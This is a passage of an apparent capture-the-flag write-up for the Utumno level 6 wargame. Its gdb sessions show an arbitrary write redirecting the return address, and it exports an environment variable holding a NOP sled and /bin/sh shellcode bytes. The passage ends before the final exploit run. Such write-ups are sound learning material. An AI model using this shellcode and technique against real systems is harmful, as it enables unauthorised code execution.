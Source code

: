 So, I tried to take a valid value from the stack, the first one `0xffffd628`.

```nasm
(gdb) x/16x $esp
0xffffd628:	0x08048589	0x41414141	0xffffd869	0x41414141
0xffffd638:	0xf7e40890	0x080485fb	0x00000004	0xffffd704
0xffffd648:	0xffffd718	0x080485d1	0xf7fc53dc	0x0804822c
0xffffd658:	0x080485b9	0x00000000	0xffffffff	0x41414141
(gdb) run -1 0xffffd628 BBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno6 -1 0xffffd628 BBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

That's an interesting result. It seems that the second args can point to the third args and use it as a return address (I had to admit that it was a lucky shot). Now, we could create an environment variable with a shellcode and set the second argument to point to the third argument. The third argument will contains an address pointing to the NOP sled.

First, we export a shellcode with a generous NOP sled.

```bash
utumno6@utumno:/utumno$ export EGG=$(python -c "print 300 * '\x90' + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")
```

Now, based on our previous discovery, we will segfault the executable to get the address pointed by **ESP**. 

```nasm
utumno6@utumno:/utumno$ gdb -q ./utumno6
Reading symbols from ./utumno6...done.
(gdb) set disassembly-flavor intel
(gdb) set disassemble-next-line on
(gdb) run -1 0xffffffff $(python -c "print 'BBBB'")
Starting program: /utumno/utumno6 -1 0xffffffff $(python -c "print 'BBBB'")

Program received signal SIGSEGV, Segmentation fault.
0xf7e998d2 in ?? () from /lib32/libc.so.6
=> 0xf7e998d2:	89 02	mov    DWORD PTR [edx],eax
(gdb) info reg esp
esp            0xffffd4e8	0xffffd4e8
(gdb) run -1 0xffffd4e8 $(python -c "print 'BBBB'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno6 -1 0xffffd4e8 $(python -c "print 'BBBB'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
=> 0x42424242:	Cannot access memory at address 0x42424242
(gdb)
```
